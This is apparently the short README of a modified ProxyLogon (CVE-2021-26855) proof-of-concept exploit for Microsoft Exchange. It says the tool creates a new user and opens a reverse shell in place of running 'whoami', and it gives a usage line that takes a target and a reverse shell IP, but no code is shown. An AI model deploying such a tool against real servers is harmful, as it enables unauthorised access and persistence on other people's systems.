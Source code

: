CVE-2021-26855

This is a modified version of a POC for proxylogon. Instead of laucnhing "whoami" it creates a new user and a reverse shell. The origonal code can be found here: https://www.exploit-db.com/exploits/49663

Usage: python proxylogon.py <target> <email> <reverse_shell_ip>"
